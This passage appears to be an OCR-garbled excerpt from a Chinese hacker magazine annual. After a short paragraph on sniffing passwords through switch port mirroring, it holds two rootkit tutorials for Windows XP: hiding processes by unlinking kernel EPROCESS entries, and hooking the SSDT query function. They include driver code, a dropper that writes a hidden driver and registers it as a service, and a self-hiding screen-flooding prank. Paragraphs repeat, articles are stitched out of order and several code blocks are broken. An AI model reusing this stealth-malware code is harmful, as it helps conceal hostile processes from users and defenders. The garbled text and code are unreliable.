端口映射被作为交换机二项特性，主要是在故障处理时进行报文分析，以更准确的进行定位。然而借助于这项技术，我们可以轻松获得所需要的密码。即使我们不在对方的局域网内，但只要我们能够接入其上层网络设备，即可通过端口映射抓取报文，从而得到用户密码等重要数据。

密码对于个人的重要性不言而喻，但无论多么强壮的密码，在端口映射及嗅探破解面前可谓不堪一击。那么，如何能做好保护好我们的密码呢？需要主要做好以下 3 点：

- 1. 做好网络设备的登陆管理，尤其是远程与本地管理密码，需定期进行修改；非工作人员严禁登陆网络设备。
- 2. 严格控制登陆账号的权限，如 `port mirroring`、`port monitor` 等命令，均需设置为最高权限账号才可配置；并设置监察员定期对设备进行检查，非经审批上述命令不能详解配置。
- 3. 对于重要的电子审批系统，其密码采用密文传输。如 QQ、MSN 由于采用了密文传输，其密码安全性则得到很大提升。

本文是《消失的进程——通过挂钩 SSDT 隐藏进程》一文的姊妹篇，讨论比挂钩 SSDT 更强的通过 DKOM 技术隐藏进程的方法。在写文章的时候，我假设读者已经对 Windows 系统的驱动程序编写有基本的了解。所谓 DKOM，即 Direct Kernel Object Manipulation，可译为直接内核对象操作，是 Rootkit 技术的一个方面。首先有必要对“内核对象”这个词做一点粗略的解释。简而言之，这里的“对象”一字基本等价于“结构”。内核对象，是微软公司在描述 Windows 内核相关的数据结构时采用的词（即英语 Object），特别要注意的一点是，这种“类的实例”等面向对象编程概念没有什么关系。

在明晰了内核对象的含义之后，接着描述一下 DKOM 的概念。什么是 DKOM 呢？具体来说，DKOM 就是通过定位并直接修改内核中用于存储信息的内核对象以达到 Rootkit 一般目的的技术。操作系统将许多信息以特定的结构保存。

Windows 系统在内核中使用特定的内核对象表示活动进程，通过 DKOM 技术，我们可以修改这些内核对象，进而达到隐藏进程的目的。本文的讨论以 Windows 系统为例，介绍如何通过 DKOM 技术隐藏进程。

DKOM 是很强大的技术，通过它可以对系统做出任何的修改，而且这些修改往往都是极难检测的。之前讨论过的挂钩 SSDT 的方法，因为直接修改了系统表，所以会被一些反 Rootkit 程序发现系统表被修改了，进而检测出 Rootkit 的存在，因为任何合法的程序都不会更改 SSDT；可通过 DKOM 技术，我们将直接修改内存中记录的内核对象，反 Rootkit 多对此无能为力。

不过，DKOM 也不是万能的。关于 DKOM 新技术会遇到很大的阻力——在修改内核之前我们首先必须知道内核对象都有什么，他们的结构定义是什么，他们是如何被系统操纵的等一系列细节。可惜，上述大多数信息都在内核空间内存中存在。举个例子，Windows 系统在内核中使用的内核对象表示活动进程，通过 DKOM 技术，我们可以修改这些内核对象，进而达到隐藏进程的目的。

是无文档可查的，只能通过逆向等方法去发掘，这是高等的工作。虽说如此，使用已知的 DKOM 技术却是很简单的。如果了解挂钩 SSDT 技术是读者对脚本小子身份的一次尝试性突破；那么在了解可 DKOM 后，就算基本脱离了脚本小子区，而文件系统中映像文件的文件名可以很长，这远不是 16 字节的限制了。

是进程的位于文件杂乱中映像文件的名字。这个名字的一部分或者全部被存储在位于偏移 +0x174 处 ImageFileName 字段。ImageFileName 字段本身是一个长度为 16 字节的数组。具体的规则却是隐晦的。以上就是对 DKOM 技术的一个简单概括，下面我们将首先作一番纯技术性的说明，之后，通过我为本文编写的一个较为实用的 Rootkit 范例来进一步讨论解决编程中面临的种种问题。

要强调的一点是，以下所进行的讨论都是基于 Windows XP SP3 系统的。要知道，Rootkit 技术同操作系统的版本有着密切的联系。Windows 在内核中使用一个 EPROCESS 结构表示一个进程内核对象。EPROCESS 结构很长，而且没有文档说明。我的得到的一份 EPROCESS 结构的定义是从张银奎所著的《软件调试》一书中提取的，书作者提及使用 WinDbg 可以得到这个结构定义。我研究了一番，充奈没有折腾出来。详细的结构定义读者可以参考《软件调试》一书第 169 页，或者从网络上搜索一番。

再次强调，以上所谈及的两个字段的偏移是与操作系统相关的，不同的操作系统，甚至应用不同 Service Pack 都有可能改变偏移量，上面的数据是特定于 Windows XP SP3 的，这也说明了在编写 Rootkit 时判定目标操作系统的重要性。在内核态中运行的程序可以调用 PsGetVersion() 函数获取操作系统的版本。在内核态下，程序总是可以调用 PsGetCurrentProcess() 函数来得到代表当前进程的 EPROCESS 结构的地址。

Windows 在内核中使用一个 EPROCESS 结构表示一个进程内核对象。EPROCESS 结构很长，而且没有文档说明。我的得到的一份 EPROCESS 结构的定义是从张银奎所著的《软件调试》一书中提取的，书作者提及使用 WinDbg 可以得到这个结构定义。我研究了一番，充奈没有折腾出来。详细的结构定义读者可以参考《软件调试》一书第 169 页，或者从网络上搜索一番。在下面的叙述中，我们只用到其中两个字段：一是位于偏移 +0x088 的 ActiveProcessLinks 字段，二是位于偏移 +0x174 的 ImageFileName 字段。前者是一个 LIST_ENTRY 结构，后者是一个长度为 16 字节的缓冲区。LIST_ENTRY 结构定义如下：

```c
typedef struct _LIST_ENTRY {
    struct _LIST_ENTRY *Flink;
    struct _LIST_ENTRY *Blink;
} LIST_ENTRY, *PLIST_ENTRY;


```
系统正常运行时同时会有许多活动进程，每一个进程都有一个 EPROCESS 结构。这些结构并不是孤立分布在内存中被组织为一个环状的双向链表。如图 1 所示。系统本身也是通过遍历这个链表而得到相关进程的信息。组成链表的关键点就是其中包含了一个 LIST_ENTRY 结构。这个结构的两个成员分别指向前一个与后一个 EPROCESS 结构的 LIST_ENTRY 字段。这就是位于偏移 +0x088 处 ActiveProcessLinks 字段的作用。

代码是很简单的，就是通过单纯的内存比较确定偏移地址，读者都是聪明人，所以我不多讲了。如何从自身所在进程的 EPROCESS 结构遍历到目标进程？每个进程都有一个名字。这个名字通常保存在偏移 +0x174 处的 ImageFileName 字段中。通过比较 ImageFileName 字段判断结构所代表的进程，并对此链表做“适当”的修改，使代表特定进程的 EPROCESS 结构从链表中脱离，从而达到隐藏进程的目的。

```c
DWORD GetOffsetImageFileName(void)
{
    DWORD dwOffset;
    DWORD EPROCESS;
    CProcess(DWORD PsGetCurrentProcess());
    for (dwOffset = 0; dwOffset < 0x200; dwOffset++) {
        if (IsSameSystem(EProcess))
            return dwOffset;
    }
}
```

在之前的文章中我已经谈过如何将驱动程序加载到内核中并执行的方法，在此不再赘述。要补充的一点是，自己通过 SCM 安装并执行的驱动程序调用 PsGetCurrentProcess() 获得的 EPROCESS 结构地址总是指向进程“System”的，也就是系统进程。基于正常加载的驱动程序具有的这个特性，可以定义一个在不同操作系统中使用的发现 ImageFileName 字段偏移的函数，即下面的 GetOffsetImageFileName() 函数。


## EPROCESS结构呢？

为此，我编写了FindProcessEPROC()函数。代码如下：

```c
DWORD FindProcessEPROC(char* name,size_t len,
ULONG offset){
    DWORD eproc=0;
    char* currname;
    char* startname;
    DWORD nCount;
    PLIST_ENTRY plist_active_procs;

    currname=startname=0;
    nCount=0;
    eproc = (DWORD)PsGetCurrentProcess();
    currname=startname=(char*)(eproc + offset);
    while(1)
    {
        if(!memcmp(name,currname,len))
        {
            return eproc;
        }
        else if((nCount > 0) && !(memcmp(currname,startname,len)))
        {
            return 0;
        }
        else
        {
            plist_active_procs = (LIST_ENTRY*)(eproc + OFFSET_LIST_ENTRY);
            eproc = ((DWORD)plist_active_procs->Flink) - OFFSET_LIST_ENTRY;
            currname = (char*)(eproc + offset);
            nCount++;
        }
    }
}
```

这个函数基于给定的名字，通过比较ImageFileName字段发现目标进程，正如我们之前提到的那样。程序首先通过PsGetCurrentProcess()函数得到当前的EPROCESS结构地址，然后遍历链表，寻找其中ImageFileName字段为name的EPROCESS地址，找到则返回，找不到返回0值。通过LIST_ENTRY的Flink字段跳到下一个EPROCESS结构中去。其中的宏OFFSET_LIST_ENTRY等于0x88。值得一提的一点，EPROCESS结构构成的链表是首尾相连的，所以在nCount大于0并且当前EPROCESS和最初在开始时候得到的EPROCESS相等的时候退出循环。得到目标EPROCESS结构的地址是最最关键的，以上函数完成了几乎所有的工作，理解这个函数对于进一步理解下面的内容至关重要。

说一点题外话，很多初步驱动编程的人都会对内核导出函数的命名方式表示惊奇，他们都有一个类似于“Ps”、“Io”、“Rtl”等简短前缀，这个前缀使函数便于归类。比如以“Ps”开头的函数必然与进程（Process）有关，以“Rtl”开头的函数必然是“Runtime”系列实用函数等等。更多此类信息可以从WDK文档中获得。

实际的代码大致是怎样写的呢？首先，指定参数调用FindProcessEPROC()函数，设置要隐藏的进程名，名字的长度，以及名字在EPROCESS中的偏移量。当此函数返回后，必不可少的一步是判断其返回值是否是非零的，否则给出一条提示并终止。接下来，通过已知的EPROCESS地址和链表结构的偏移量修改链表。使前一个链表的后继成为后一个链表，后一个链表的前继成为前一个链表。重要的是，把自身的前继后继指针都修改指向本身，关于这点，稍后再细谈。这样一番修改后，目标EPROCESS就从链表中脱离了。此后系统在因为需要查询信息从而遍历链表的时候就不会再遍历到目标进程，于是进程的存在被隐藏了。

以上的说明还是较为笼统而抽象的，接下来我通过分析我为本文准备的一个较为实用的隐藏进程的Rootkit示例来进一步的演示DKOM技术的典型应用。在示例中，我们在驱动程序初始化过程中创建了一个新的系统线程，其线程函数每相同时间间隔后遍历EPROCESS链表一次，从中查找进程名以“TTT”开头的进程，并将其隐藏。代码中涉及的几个新的内核导出函数将在其出现的时候对其进行详细的说明。因篇幅所限，文章这里就不粘贴完整的代码了，但仍然建议读者一边对照本文附带的完整代码一边阅读此分析。

首先看下驱动程序的初始化代码。

```c
NTSTATUS DriverEntry(IN PDRIVER_OBJECT pDriverObject,
    IN PUNICODE_STRING pRegisterPath)
{
    NTSTATUS Status;
    HANDLE Thread;

    g_nBingo=0;
    pDriverObject->DriverUnload=OnUnload;
    KeInitializeEvent(&g_WaitEvent,SynchronizationEvent,FALSE);
    Status=PsCreateSystemThread(&Thread,0L,NULL,NULL,NULL,DelayCheck,NULL);
    if(!NT_SUCCESS(Status))
    {
        return STATUS_INVALID_PARAMETER;
    }
    ZwClose(Thread);
    return STATUS_SUCCESS;
}
```

其中g_nBingo与g_WaitEvent是全局变量。前者用于控制将要创建的系统线程的终止过程，后者是一个“事件对象”，与前者配合使用。

在初始化过程中，我们设置了一个OnUnload例程，然后初始化了一个事件对象，并创建了一个系统线程。然后关闭了系统线程的句柄。一直讲到“系统线程”这个词，它的含义就是属于进程“System”的进程。这与用户模式编程中创建一个线程没有什么形式上的区别，无非是这样的线程是内核态的线程，权限大些罢了。创建线程的时候指定了线程函数DelayCheck()。线程函数完成隐藏进程的全部功能。“事件对象”又是什么呢？简单的说，就是一种用于线程同步的机制。从纯粹的编程视角来看，就是首先调用KeInitializeEvent()内核函数初始化一个KEVENT类型的变量，这个变量所代表的事件对象是全局的。它有两种状态，即TRUE和FALSE。使用KeSetEvent()函数可以动态的更改事件的状态。如何使用这个所谓的事件对象呢？调用一个函数KeWaitForSingleObject()，这个函数的参数中包含了一个事件对象。这个函数的行为诡异，程序执行到这个函数的时候，它在内部检测事件的状态，如果事件状态为FALSE，它就内陷在函数中不返回，直到事件状态变为TRUE时才返回。以上提到的几个函数的原型如下：

```c
VOID
KeInitializeEvent(
    IN PRKEVENT Event,
    IN EVENT_TYPE Type,
    IN BOOLEAN State
);
```

```c
LONG
KeSetEvent(
    IN PRKEVENT Event,
    IN KPRIORITY Increment,
    IN BOOLEAN Wait
);
```

```c
NTSTATUS
PsCreateSystemThread(
    OUT PHANDLE ThreadHandle,
    IN ULONG DesiredAccess,
    IN POBJECT_ATTRIBUTES ObjectAttributes
    OPTIONAL,
    IN HANDLE ProcessHandle OPTIONAL,
    OUT PCLIENT_ID ClientId OPTIONAL,
    IN PKSTART_ROUTINE StartRoutine,
    IN PVOID StartContext
);
```

```c
NTSTATUS
KeWaitForSingleObject(
    IN PVOID Object,
    IN KWAIT_REASON WaitReason,
    IN KPROCESSOR_MODE WaitMode,
    IN BOOLEAN Alertable,
    IN PLARGE_INTEGER Timeout OPTIONAL
);
```

系统线程的退出方式很独特，要么等待操作系统将要关闭，System进程将要退出的时候同其所属进程一起退出，要么在线程函数内调用PsTerminateSystemThread()自己退出。此外，驱动程序在卸载的时候必须要关闭自己创建的系统线程，否则给你个大蓝脸，提示你驱动卸载却没有回收资源之类的信息。我设计这个示例的时候考虑了驱动应该能被卸载的问题，可是在OnUnload例程中怎么退出系统线程呢？基于上面的叙述，读者可以发现似乎系统并没有提供一种在系统线程外终止系统线程的方法，所以我设计在OnUnload中设置一个全局变量，即g_nBingo变量。这个变量在初始化的时候被赋值为0，线程函数在每轮循环结束的时候检测g_nBingo变量的值是否被重设为1，如果是的话就自我终结。我在OnUnload例程中将其设置为1，向线程函数通知驱动即将被卸载了。然后，例程陷入KeWaitForSingleObject()函数中等待线程函数发给其准备退出的信息。线程函数在退出之前设置了事件对象，接着，OnUnload例程的阻塞状态消失，驱动就被安全的卸载了。

有的读者可能考虑到应该在OnUnload例程阻塞状态消失后应该再等待一小段时间，以便保证线程函数确实在驱动卸载之前结束掉了。但是在我历次试验的过程中并没有出现什么异常情况，本着简约主张，我在那里没有添加延时代码，觉得有必要的读者完全可以自己动手在那里添加一段空循环以达到适当延时的目的。

下面给出卸载例程OnUnload()与线程函数DelayCheck()的代码：

```c
void OnUnload(PDRIVER_OBJECT pdriver_object)
{
    ......
    g_nBingo=1;
    ......
    KeWaitForSingleObject(&g_WaitEvent, Execu
```

```
#define KERNEL_MODE 0x0

Return;

void DelayCheck(void* Context)
{
    ULONG offset;
    char name[7] = "TTT";
    int nameLen = 3;
    DWORD eproc = 0;
    PLIST_ENTRY pListActiveProcs;
    LARGE_INTEGER Interval;
    Interval.QuadPart = (-10)*1000*100;
    Offset = 0x174;

    while(1)
    {
        eproc = FindProcessEPROC(name, nameLen);
        if (offset)
        {
            if (eproc)
                pListActiveProcs = (LIST_ENTRY*)((eproc + OFFSET_LIST_ENTRY));
            x = (DWORD*)pListActiveProcs;
            if (Blink) = (DWORD)(pListActiveProcs->Blink);
            *(DWORD*)pListActiveProcs->Blink =
                (DWORD)(pListActiveProcs->Flink);
            *(DWORD*)pListActiveProcs->Flink =
                (LIST_ENTRY*)(&(pListActiveProcs->Flink));
        }
        if (&nBingo == 1)
        {
            KeSetEvent(&g_WaitEvent, SynchronizationEvent, TRUE);
            PsTerminateSystemThread(STATUS_SUCCESS);
        }
        KeDelayExecutionThread(KernelMode, 0, &Interval);
    }
}
```

地址，检查获得的eproc值是否有效，有效的话，做出一些修改，使得此结构脱离链表，否则什么也不做。然后呢，函数检查了变量g_nBingo是否被设置，设置的话就退出。这套简单的机制在上文中描述的很详尽了。最后，通过调用KeDelayExecutionThread()函数，在开始下一轮循环之前，稍微“休息”一会儿。最后的延时是很重要的，通过比较设定延时和有延时时的不同表现就可以知道，无延时情况下，只要此驱动在运行，CPU使用率就必定是100%，全部被“System”进程占有了。这样的害，系统的性能被严重影响了。有延时时，表现良好，一切正常如从前，只是在各管理器中少显示了几个进程信息，呵呵。修改链表的代码貌似很复杂，实际上很简单，无非是把当前的节点从链表中删除，并将当前节点的前驱后继都指向本身。基于之前给出的对链表的节点代码功能的表述，聪明的读者应该很容易理解他们。然后，给出阳生函数的原型。

```c
NTSTATUS
KeDelayExecutionThread(
    KPROCESSOR_MODE WaitMode,
    BOOLEAN Alertable,
    PLARGE_INTEGER Interval
);
```

再允许我说点题外话，我尚未未曾在文章中未描述某个函数的用法，因为这是一篇技术文章，不是函数用法参考文档，版面篇幅有限。所以我更多的把讲述的重点放在描述代码段的功能上，而不是放在如何调用某某函数上。具体的函数调用方法完全可以通过函数参考文档获得完整的了解。可这种讲述方式可能使一部分读者感到困惑。若读者不习惯我的风格，还望见谅。

至此，读者应该基本会解了上述采用DKOM技术隐藏进程的方法。读者可以将上述示例程序自由的使用，更改代码逻辑以增加更强大的功能，秉承传统黑客精神，与大家分享自己的代码。在文末再介绍一个使用工具吧，通过它可以很方便的将驱动从加载并运行。工具名字叫InstDrv，这行后显示一个小小的对话框，要求手工输入驱动的绝对路径。建议读者将驱动仍向本地磁盘的根目录下，这样省事些。四个按钮的功能很简单，分别是安装，启动，终止，删除。基本的用法是，首先安装，安装时工具根据驱动程序名生成一个服务名，安装成功后就可以单击启动按钮。启动的进程就是执行DriverEntry()的进程。对于启动的驱动，可以随时终止，当然前提是驱动必须在册了OnUnload例程。删除按钮就是将驱动及其安装的服务从系统中删除。有了这样一个小工具后，在试运行自制的ROOTkit时就很方便了。当然，这个工具不是我的作品。其实自己动手做一个也很简单，有兴趣的读者可以试着做做。

通过上面的叙述，想必读者对OnUnload()已经很明白了。下面重点放在DelayCheck()上。函数的主题代码是一个无限循环。在循环中，首先使用FindProcessEPROC()尝试获得一个名称以“TTT”前缀开头的进程的EPROCESS结构。

## 消失的进程

### ——通过挂钩SSDT隐藏进程

听风

记得之前应朋友要求做过一个小小的恶搞程序，那个程序执行后，在全屏幕上的随机位置画出随机颜色的点，使屏幕模糊了，效果就像是电视没有信号时的雪花一样，不过是彩色的。这个程序恶搞没有害处，但是会让一般人大吃一惊。

当初的程序不是很完美，只要一个眼疾手快的人打开任务管理器，将那个进程强制终止掉就结束了。这段时间学点Rootkit的东西，在了解了如何通过Rootkit隐藏进程后，就想着把之前的程序重新做一遍。于是，一个无法通过任务管理器终止的恶搞程序第二版就做出来了。在本文中，我将以此为例，详细讨论程序中采用的通过Rootkit隐藏进程的方法。需要注意的是，本文范例程序只能在Windows XP SP3下执行，在Windows 7下运行导致蓝屏错误。

可能有些读者希望在继续阅读文章之前先试下效果。那么，请读者首先将本文附带的pslist.exe和pskill.exe两个小工具复制到Windows\System32目录中，然后打开一个命令行窗口，并运行badboy.exe。读者会看到满屏的雪花迅速掩盖了一切，嗯，当读者觉得满足了以后，在命令行窗口，依次输入命令：

```
pslist
net stop hideboy
pslist
pskill badboy.exe
```

然后滚动一下命令行窗口，把雪花去掉。可以看到第一次运行pslist工具输出的进程列表，嗯，似乎没有badboy.exe一项。执行net stop hideboy的作用是停止Rootkit提供的功能。停止了Rootkit提供的服务后，进程就被显示出来了。所以再次运行pslist工具显示的结果可以看到badboy.exe进程。最后，pskill终止掉这个进程。读者还可以在做这些之前打开任务管理器以观察任务管理器的变化，当然任务管理器在驱动服务运行期间也不会显示badboy.exe进程，还可以把前面要输入的那些命令编成一个批处理文件，这样也许更好些。

看到实际效果后，读者也许会对本文更加感兴趣。所以，闲言碎语不多讲，直接进入主题。

本文讨论的是通过挂钩SSDT以隐藏进程的方法，这是Rootkit进程隐藏技术中较为基础的方法。那么，什么是SSDT呢？SSDT就是System Service Dispatch Table的缩写，译为系统服务调度表。好吧，它有什么用呢？我们知道，应用程序要完成有用的功能，不使用系统服务是不可能的。操作系统提供的系统服务有两个基本特点，其一是数目巨大，其二是具有明显的层次。数目巨大是人所共知的，所谓有明显的层次又是怎么回事呢？初接触Win32程序设计的人一定会被数目庞大的API所震撼，这些API完成的功能包罗万象。可是，这就是操作系统提供的系统服务的全部吗？非也非也。孰不知在API的背后，其实是另一些函数在完成实际的工作。API只是将这些函数封装的更加友好罢了。这些API就是由ntdll.dll动态链接库导出的称为Native API的函数。API的背后是Native API，但Native API并不是终点。为数众多的Native API又调用了怎样的代码发挥着作用呢？这些代码便是位于内核中的，由操作系统内核导出的函数。也就是说，API的背后是Native API在发挥着作用，Native API的背后又是操作系统内核导出函数在发挥着作用，这样的说法虽算不上十分准确，但是还是可以说明这样一个基本事实——操作系统的系统调用是分层的，许多貌似通过API完成的工作其实都是由更低级的代码完成的，操作系统内核导出函数在系统服务的集合中处在很低级的位置中。

SSDT说白了，就是一张表格，就是一个数组结构，它包含了众多系统内核导出的函数地址，通过特定的索引访问SSDT的特定项目，就能得到特定的函数的地址，然后通过这个地址调用对应的函数，执行特定的功能。SSDT是由内核ntoskrnl.exe导出的表。系统启动的初期，内核创建并初始化SSDT。从编程的方面来说，没必要了解关于内核创建SSDT的全部知识，得到SSDT的地址并修改SSDT是我们的全部目的。我们只要在自己程序中指定一个名为KeServiceDescriptorTable的变量，并指定它是一个从外部导入的符号，然后链接器就会替代我们完成所有的工作。

在明白了SSDT的含义后，怎么通过挂钩SSDT完成进程隐藏呢？简而言之，应用程序必须通过系统功能调用来获取当前系统中活动进程的信息，内核提供的查询活动进程信息的函数地址被保存在SSDT中，我们可以将SSDT中原有的函数的地址替换成自定义的函数的地址，从而使今后任何对于查询系统活动进程信息的请求都会被我们的自定义接受并处理，我们在自定义函数之内调用原先的查询函数，并修改此查询函数返回的结果。这就是所谓的挂钩SSDT隐藏进程的原理。

应用程序调用用户空间的系统服务试图获取进程列


## 糊鳝驱动

用户模式的系统调用七拐八拐后，从用户态到内核态，最终必然由内核的导出函数 ZwQuerySystemInformation() 完成底层的实际查询工作，从这个函数名字就可以看出，它被用来查询操作系统的很多信息，至于查询的信息类型是由其参数决定的。这个函数做了些什么呢？这个函数其实也只是个包装函数，它的功能不过是通过一个特定的索引值，从SSDT中取得一个函数地址，并调用那个登记在SSDT中的查询函数。这点在上文我们也提到过了。ZwQuerySystemInformation()这个函数的重要性在于，它的代码中包含了实际的查询函数在SSDT中的索引值。我们要从ZwQuerySystemInformation()函数中取得索引值，并通过这个索引值定位于SSDT，并作修改。

友人交谈，对方谈及如何隐藏应用程序时建立的CMD窗口。方法其实很简单，因为操作系统自动为命令行程序打开一个窗口，所以在新建工程的时候把工程指定为Windows窗口程序即可，虽然我们在代码中并未创建窗口。这样设置之后，程序的入口函数应当被指定为WinMain()。代码中HideMyself()函数的功能是启动Rootkit功能，代码如下：

```c
int HideMyself(void){
    HRSRC hResFile;
    DWORD dwResize;
    HGLOBAL hgResFile;
    LPVOID lpresfile;
    HANDLE hFile;
    SC_HANDLE hSCHandle;
    SC_HANDLE hSCVHandle;
    char lprilePath[MAX_PATH];

    hResFile=FindResource(NULL,"hideboy",RT_RCDATA);
    dwResize=SizeofResource(NULL,hResFile);
    hgResFile=LoadResource(NULL,hResFile);
    lpresfile=LockResource(hgResFile);
    hFile=CreateFile(
        ".\\hideboy.sys",
        GENERIC_READ|GENERIC_WRITE,
        0,
        NULL,
        CREATE_ALWAYS,
        FILE_ATTRIBUTE_HIDDEN,
        NULL
    );
    WriteFile(hFile,lpresfile,dwResize,&dwResize,NULL);
    CloseHandle(hFile);
}
```

泛泛而谈的原理性介绍难以包含技术细节。下面一边分析代码，一边更进一步的讨论问题。首先看下那个小小的恶搞程序：

```c
int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance,
                   LPSTR lpCmdLine, int nCmdShow)
{
    int nScreenX, nScreenY;
    HDC hDC;
    HideMyself();
    ghDC=GetWindowDC(NULL);
    if(ghDC==NULL)
    {
        MessageBox(NULL,"GetWindowDC: Error", "MB_OK);
        return 1;
    }
    nScreenX=GetSystemMetrics(SM_CXSCREEN);
    nScreenY=GetSystemMetrics(SM_CYSCREEN);
    srand(GetTickCount());
    while(1)
    {
        SetPixel(ghDC, rand()%nScreenX, rand()%nScreenY,
                 RGB(rand()%255, rand()%255, rand()%255));
    }
    /* NeverReturn */
    return 0;
}
```

HIDEBOY.sys 驱动程序相关代码：

```c
SERVICE_ALL_ACCESS,
SERVICE_KERNEL_DRIVER,
SERVICE_DEMAND_START,
START,

hSCHandle=OpenSCManager(NULL,NULL,SC_MANAGER_ALL_ACCESS);
GetCurrentDirectory(MAX_PATH, lprilePath);
strcat(lprilePath, "\\hideboy.sys");
hSCVHandle=CreateService(hSCHandle,
                         "hideboy",
                         "hideboy",
                         SERVICE_ALL_ACCESS,
                         SERVICE_KERNEL_DRIVER,
                         SERVICE_DEMAND_START,
                         SERVICE_ERROR_NORMAL,
                         lprilePath,
                         NULL,
                         NULL,
                         NULL,
                         NULL,
                         NULL);
```

这段程序依次获取了全屏绘图的柄，以及屏幕的尺寸，最后循环调用SetPixel()在全屏任意坐标画任意颜色的点，代码很简单，多说无益。另外要提到的一点是，某次调用

（本页为双栏横排的连载续页，页眉页脚已忽略。正文概述通过服务控制管理器加载内核驱动，并在驱动入口处保存、替换系统服务调度表中的某一函数地址、卸载时再恢复。页内含多段可直接实现该行为的代码，以及一处以伪装图标诱使他人点击的欺骗描述；这些可直接用于实现或传播的代码与步骤未予转录。）

# 神秘园

2011合订本上卷

```
IN ULONG SystemInformationLength,
OUT PULONG ReturnLength);
```

需要提醒读者注意的是NTSYSAPI以及NTAPI这两个宏不能省略。第一个宏最后被定义为__declspec(import)，这指出这个函数是外部导入的。NTAPI宏被定义为__std-call，表明了函数的调用方式。再次提请读者注意，这两个宏不可省略。代码中的KeServiceDescriptorTable可以等价的视为SSDT。SSDT具有一定的结构，定义如下：

```c
#pragma pack(1)
typedef struct _ServiceDescriptorEntry {
    unsigned int *ServiceTableBase;
    unsigned int *ServiceCounterTableBase;
    unsigned int NumberOfServices;
    unsigned char *ParamTableBase;
} ServiceDescriptorTableEntry_t;
#pragma pack()
__declspec(dllimport) ServiceDescriptorTableEntry_t KeServiceDescriptorTable;
```

其中#pragma pack()杂注指令指定了结构对齐单位，这里指定为1个字节。更多的关于此杂注指令的信息，读者可自行在网络上寻找。然后，我们定义了KeServiceDescriptorTable，并指出这是个外部导入的符号。

注意，KeServiceDescriptorTable这个名字是特定的，不能改为其他。其实驱动Build的过程也就是编译链接的一个过程，C语言程序皆如此。驱动构建的一个特殊之处是它在链接时使用了ntoskrnl.lib这个库。这个库较为特殊，包含了操作系统内核导出的很多东西，KeServiceDescriptorTable这个名字也是由此库导出的一个符号。

值得一提的是，参考例程在这里使用了较复杂的机制来改写内存的读写属性，因为书作者认为SSDT所在的内存区域是有访问限制的。但我实践发现，即使这里什么都不做，程序也可以正常运行，这样一来就省略了许多代码。有资料称SSDT所在的内存区域被标记为只读的，我在实践中发现SSDT可以直接被修改，其中原因，还有待进一步研究。顺带说明一下，我的测试系统是Windows XP SP3。

对于之前的讨论，有个模糊的地方，这里再详细叙述一番。我们已经知道ZwQuerySystemInformation()函数通过一个索引值从SSDT中取得特定函数地址，但却没有仔细说明我们如何从ZwQuerySystemInformation()函数中得到这个索引值。对ZwQuerySystemInformation()函数进行反汇编后发现，这个函数是以mov eax,0XXXXXXXXh开头的。其中0XXXXXXXXh就是索引值。这条汇编语句汇编成机器码后有五个字节。取得的ZwQuerySystemInformation()函数的地址，将其强制转换为char*类型的指针，将可执行的机器码看做是数据，那么现在就有了指向第一字节，也就是移动数据的指令的操作码的地址，将此地址加1，然后他将指向4字节长的索引值。再将此指针强制转换为int*类型的指针，并取其值，这样就得到了索引值。理解这段描述的关键在于知晓函数地址指向函数代码的第一个字节，而此函数的开始的第二个到第五个字节恰好包含了所需的数据。这样是不是就能理解*(PULONG)((PUCHAR)ZwQuerySystemInformation+1)的意思了呢？然后以这个索引值为偏移，进而从KeServiceDescriptorTable中获得函数地址。

经过以上处理，SSDT就被修改掉了。挂钩完成后，每当有查询系统信息的请求，内核都将调用我们设置的钩子函数。下面我们就来看看钩子函数是如何实现的。首先给出钩子代码：

```c
NTSTATUS ModZwQuerySystemInformation(IN ULONG SystemInformationClass,
    IN PVOID SystemInformation,
    IN ULONG SystemInformationLength,
    OUT PULONG ReturnLength)
{
    NTSTATUS Status;
    PSYSTEM_PROCESSES curr,prev;
    Status = OrgZwQuerySystemInformation(
        SystemInformationClass,
        SystemInformation,
        SystemInformationLength,
        ReturnLength);
    if( NT_SUCCESS(Status))
    {
        if(SystemInformationClass == 5)
        {
            curr = (PSYSTEM_PROCESSES)SystemInformation;

            prev = NULL;

            while(curr)
            {
                if(curr->ProcessName.Buffer != NULL)
                {
                    if(!memcmp(curr->ProcessName.Buffer,L"badboy.exe",20))
                    {
                        if(prev)
                        {
                            if(curr->NextEntryDelta)
                                prev->NextEntryDelta += curr->NextEntryDelta;
                            else
                                prev->NextEntryDelta = 0;
                        }
                        else
                        {
                            if(curr->NextEntryDelta)
                                (char *)SystemInformation += curr->NextEntryDelta;
                            else
                                SystemInformation = NULL;
                        }
                    }
                }
                prev = curr;
                if(curr->NextEntryDelta)
                    ((char *)curr += curr->NextEntryDelta);
                else
                    curr = NULL;
            }
        }
    }
    return STATUS_SUCCESS;
}
```

前面提到过，ZwQuerySystemInformation()只是一个包装函数，但是鉴于它同SSDT中的查询函数具有相同的功能，而且SSDT中的查询函数也没个名字，所以在接下来的叙述中，以ZwQuerySystemInformation()代指SSDT中的查询函数了。

首先看到，此函数具有众多参数，第一个参数SystemInformationClass指定了要查询的信息。之前也曾提到过，ZwQuerySystemInformation()函数可以查询很多方面的信息，具体查询哪方面的信息，便是由第一个参数指定的。对于查询系统活动进程信息，SystemInformationClass的值是5。所以，在钩子函数调用原始ZwQuerySystemInformation()函数查询结果后，首先判断SystemInformationClass是否为5，否则便直接返回，不做处理。

ZwQuerySystemInformation()函数通过缓冲区指针返回查询结果，即第二个参数SystemInformation。对于不同的查询要求，返回的结果具有不同的结构。当SystemInformationClass被指定为5的时候，返回的结果符合SYSTEM_PROCESSES结构，此结构的定义如下：

```c
typedef struct _SYSTEM_PROCESSES
{
    ULONG           NextEntryDelta;
    ULONG           ThreadCount;
    ULONG           Reserved[6];
    LARGE_INTEGER   CreateTime;
    LARGE_INTEGER   UserTime;
    LARGE_INTEGER   KernelTime;
    UNICODE_STRING  ProcessName;
}SYSTEM_PROCESSES,*PSYSTEM_PROCESSES;
```

要说明的是，这个结构并没有完全的描述返回结果的结构，因为它只是定义返回结果所具有的结构的前几个字段，但这对于我们的程序已经足够了。原始的结构定义很长，读者可以参考本文附带的代码文件。这样的表示法包含了一个隐晦的编程技巧，读者感兴趣的话请自己品味一番吧。

